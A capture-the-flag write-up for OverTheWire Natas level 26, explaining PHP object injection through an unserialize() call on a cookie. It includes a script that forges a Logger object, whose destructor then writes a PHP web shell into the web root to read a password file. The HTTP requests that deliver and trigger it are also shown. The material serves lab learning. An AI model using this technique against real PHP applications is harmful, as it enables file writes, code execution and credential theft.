








# Natas — Level 26 → 27

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-30

## Goal

A simple drawing tool:

    Draw a line:
    X1 [___] Y1 [___] X2 [___] Y2 [___] [DRAW!]

## Solution

The source defined a `Logger` class used to track drawing sessions:

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

And the actual vulnerability — a cookie fed straight into `unserialize()`:

    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
            ...

`unserialize()` on attacker-controlled data is a classic PHP object injection sink. It never calls `__construct()` — it rebuilds an object's properties directly from the serialized data — so a crafted `Logger` object can have *any* `$logFile` and `$exitMsg` values, regardless of what the real constructor would normally set. And since `__destruct()` runs automatically once PHP is done with the object, and just writes `$exitMsg` into `$logFile` with zero validation, that's a write-what-where primitive: point `$logFile` at a location inside the web root, and `$exitMsg` at a PHP payload.

Wrote a script that redefines the same class shape (so it serializes identically) but overrides the constructor to set attacker-chosen values instead of the real ones:

    class Logger {
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct() {
            $this->logFile = "/var/www/natas/natas26/img/shell.php";
            $this->initMsg = "";
            $this->exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        }
    }

    echo base64_encode(serialize(new Logger()));

Running it produced the base64 cookie value to send:

    Tzo2OiJMb2dnZXIiOjM6...

Sent that as the `drawing` cookie in a normal request to the site. `unserialize()` rebuilt a `Logger` object with the forged properties, and when the script finished and the object was destroyed, `__destruct()` wrote the PHP payload straight into `img/shell.php`:

    GET / HTTP/1.1
    Cookie: PHPSESSID=<session>; drawing=<base64 payload>

Then requested the file that had just been written:

    GET /img/shell.php HTTP/1.1
    Cookie: PHPSESSID=<session>; drawing=<base64 payload>

Which executed the injected `file_get_contents()` call and returned natas27's password:

## Result

    Password for natas27: [REDACTED]

## Key Takeaway

`unserialize()` on any attacker-influenced input is dangerous even when the resulting object "does nothing obviously bad" on its own — PHP object injection doesn't need a special gadget chain here, just a class with a magic method (`__destruct()`, `__wakeup()`, etc.) that performs a file write using properties the attacker fully controls. A class never designed to be instantiated with arbitrary data becomes an arbitrary-file-write primitive the moment its private properties can be forged through serialization.
